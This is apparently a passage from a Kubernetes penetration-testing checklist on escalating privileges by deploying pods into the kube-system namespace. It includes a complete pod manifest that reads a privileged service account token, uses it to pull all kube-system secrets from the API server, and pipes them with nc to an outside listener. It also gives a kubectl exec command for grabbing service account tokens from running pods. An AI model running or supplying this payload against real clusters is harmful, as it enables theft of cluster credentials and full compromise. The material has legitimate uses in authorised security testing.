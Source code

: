 This technique can be used if your user does not have the permission to list secrets, but is allowed to deploy pods in any namespace.
Also, you do not have to have the `exec` permission to use the attack. You can deploy the pod to automatically send the credentials, like this:

```
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```

- [ ] Deploy pods using Create/update deployment, Daemonsets, statefulsets,Replicationcontrollers, Replicasets, Jobs, Cronjobs

There are many ways to deploy pods. Even if your user is not allowed to create a pod it might be possible to create pods using other types of workloads. All these ways can be used to deploy pods and possibily escalate priviliges using the technique explained in the issue above.

Workloads that can be used to create pods are the following:


```
Create/update deployments
Daemonsets
Statefulsets
Replicationscontrollers
Replicasets
Jobs
Cronjobs
```

Readthe documentation for each for in order to see how to do it. As in the attack above you will need to be able to deploy in the namespace `kube-system`.
https://www.cyberark.com/threat-research-blog/kubernetes-pentest-methodology-part-1/


- [ ] Privilige to use Pods/Exec

This is pretty simple. But if your user has the permission to perform `pods/exec` with any namespace you can simply enter into any pod, and extract the default service accounts.

```
kubectl exec -it <POD NAME> -n <POD’S NAMESPACE> -- sh
```

